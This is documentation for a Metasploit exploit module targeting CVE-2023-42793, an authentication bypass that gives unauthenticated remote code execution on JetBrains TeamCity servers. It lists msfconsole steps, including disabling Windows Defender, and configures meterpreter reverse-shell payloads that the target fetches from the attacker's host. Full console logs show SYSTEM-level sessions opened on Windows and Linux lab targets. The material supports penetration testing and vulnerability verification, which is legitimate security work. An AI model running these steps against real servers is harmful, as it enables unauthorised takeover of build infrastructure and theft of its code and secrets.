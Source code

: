 ## Vulnerable Application
This module exploits an authentication bypass vulnerability to achieve unauthenticated remote code execution
against a vulnerable JetBrains TeamCity server. All versions of TeamCity prior to version 2023.05.4 are
vulnerable to this issue. The vulnerability was originally discovered by SonarSource.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/1XEEEkGHzt/cve-2023-42793/rapid7-analysis).

## Testing
Download and install a vulnerable version of TeamCity for Windows, version
[2023.05.3](https://download.jetbrains.com/teamcity/TeamCity-2023.05.3.exe). By default the server will listen for HTTP
connections on port 8111.

## Verification Steps
Note: On Windows, disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793`
3. `set RHOST 192.168.86.50`
4. `set RPORT 8111`
5. Set a Target:
    * `set target 0` for Windows.
    * `set target 1` for Linux.
6. Set a suitable command based PAYLOAD:
    * `set PAYLOAD cmd/windows/http/x64/meterpreter/reverse_tcp` for Windows.
    * `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp` for Linux.
7. Change the FETCH_WRITABLE_DIR if needed:
    * `set FETCH_WRITABLE_DIR %TEMP%` for Windows.
    * `set FETCH_WRITABLE_DIR /tmp` for Linux.
8. `check`
9. `exploit`

## Scenarios

### Windows
```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793):

   Name                     Current Setting  Required  Description
   ----                     ---------------  --------  -----------
   Proxies                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                    8111             yes       The target port (TCP)
   SSL                      false            no        Negotiate SSL/TLS for outgoing connections
   TEAMCITY_ADMIN_ID        1                yes       The ID of an administrator account to authenticate as
   TEAMCITY_CHANGE_TIMEOUT  30               yes       The timeout to wait for the changes to be applied
   VHOST                                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      xwOdwhbLavjs     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RPORT 8111
RPORT => 8111
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > check
[+] 192.168.86.50:8111 - The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.c2ozbE1aYXdTNnhlVlRJRGdEeEU0c2VoQ1Qw.MTlkZjQ2YTktOTc1MS00YzRlLWEwMGEtYzE0ODEyZjZmMzIw
[*] Modifying internal.properties to allow process creation...
[*] Waiting for configuration change to be applied...
[*] Executing payload...
[*] Resetting the internal.properties settings...
[*] Sending stage (200774 bytes) to 192.168.86.50
[*] Deleting the authentication token.
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:51978) at 2023-09-28 12:20:48 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### Linux
```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793):

   Name                     Current Setting  Required  Description
   ----                     ---------------  --------  -----------
   Proxies                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                   192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                    8111             yes       The target port (TCP)
   SSL                      false            no        Negotiate SSL/TLS for outgoing connections
   TEAMCITY_ADMIN_ID        1                yes       The ID of an administrator account to authenticate as
   TEAMCITY_CHANGE_TIMEOUT  30               yes       The timeout to wait for the changes to be applied
   VHOST                                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      zpqZhbbEUzyX     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.Y0F2UmpEc01hQzVQRjl3a2V3QWxoZ1pzdlg4.MmRhZTM5OTctY2MxZS00YmExLWIzZmYtOTUxOWZlZTBhNWUw
[*] Modifying internal.properties to allow process creation...
[*] Waiting for config change to be picked up...
[*] Waiting for config change to be picked up...
[*] Executing payload...
[*] Sending stage (3045380 bytes) to 192.168.86.43
[*] Resetting the internal.properties settings...
[*] Deleting the authentication token.
[*] Meterpreter session 8 opened (192.168.86.42:4444 -> 192.168.86.43:50210) at 2023-09-28 14:43:13 +0100

meterpreter > sysinfo
Computer     : 192.168.86.43
OS           : Ubuntu 22.04 (Linux 6.2.0-33-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
